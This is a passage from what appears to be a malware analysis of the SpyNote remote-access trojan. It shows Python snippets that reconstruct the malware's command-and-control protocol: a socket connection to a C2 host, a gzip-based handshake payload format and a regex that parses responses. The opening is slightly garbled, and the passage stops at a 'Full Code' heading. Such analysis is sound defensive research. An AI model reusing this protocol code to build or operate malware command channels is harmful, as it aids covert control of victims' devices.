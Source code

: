 ```python
socket.create_connection((C2_HOST, C2_PORT)) as s:
    print(f"Connected to {C2_HOST}:{C2_PORT}, sending {len(payload)} bytes...")
    s.sendall(payload)
    response = s.recv(1024)
```

* After connection establishment, a **handshake payload** is zipped and sent via the socket output stream.

```python
def compress_payload(identifier: str, raw_data: bytes) -> bytes:
    compressed_identifier = gzip.compress(identifier.encode())
    compressed_data = gzip.compress(raw_data)

    return (
        str(len(compressed_identifier)).encode() + b"\x00" +
        str(len(compressed_data)).encode() + b"\x00" +
        compressed_identifier +
        compressed_data
    )
```

* The malware uses a custom technique to check prefix bytes to identify the **Gzip** payload.

```python
# Check format: bytes + null + bytes + null + 1f 8b 08(zip header)
pattern = re.compile(b'^(.+?)\x00(.+?)\x00(\x1f\x8b\x08)', re.DOTALL)
match = pattern.match(response)
```

![Network traffic analysis showing C2 communication](/assets/images/malware-analysis/SpyNote/traffic.png)

All sent and received traffic utilizes this custom C2 integration.

## Full Code
